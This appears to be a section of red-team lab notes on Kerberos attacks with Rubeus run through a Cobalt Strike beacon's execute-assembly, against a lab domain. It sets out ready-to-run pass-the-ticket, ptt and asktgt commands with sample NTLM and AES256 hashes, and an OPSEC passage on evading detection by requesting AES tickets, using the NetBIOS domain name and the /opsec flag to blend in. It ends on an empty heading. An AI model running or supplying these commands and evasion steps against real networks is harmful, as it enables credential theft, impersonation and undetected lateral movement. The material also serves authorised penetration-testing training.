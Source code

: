 #### Pass the Ticket

Imports a ticket for the specified user.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv
```

### ptt

Passes a ticket into a specified Local Unique Identity number (LUID).

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP
```

Triage will now detect the TGT.

### asktgt

Requests a TGT for a specified user.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:59fc0f884922b4ce376051134c71e22c /nowrap
```

**OPSEC**

Using an NTLM hash results in a ticket encrypted using RC4 (0x17).  This is considered a legacy encryption type and therefore often stands out as anomalous in a modern Windows environment.

To obtain a TGT encrypted using AES256 (0x12), you guessed it, use the user's AES256 hash instead.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /nowrap
```

It will be practically undistinguishable from the other TGT requests, with the exception of two fields:

1. The Supplied Realm Name will be dev.cyberbotic.io, instead of DEV.
2. The Ticket Options will be 0x40800010 instead of 0x40810010.

The asktgt command has two optional parameters that we can use to blend in a bit more.

If no `/domain` is specified, Rubeus uses the FQDN of the domain this computer is in.  Instead, we can force it to use the NetBIOS name with `/domain:DEV`.  There is also an `/opsec` flag which tells Rubeus to request the TGT in such a way that results in the Ticket Options being 0x40810010.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap
```

#### Get AES Ticket
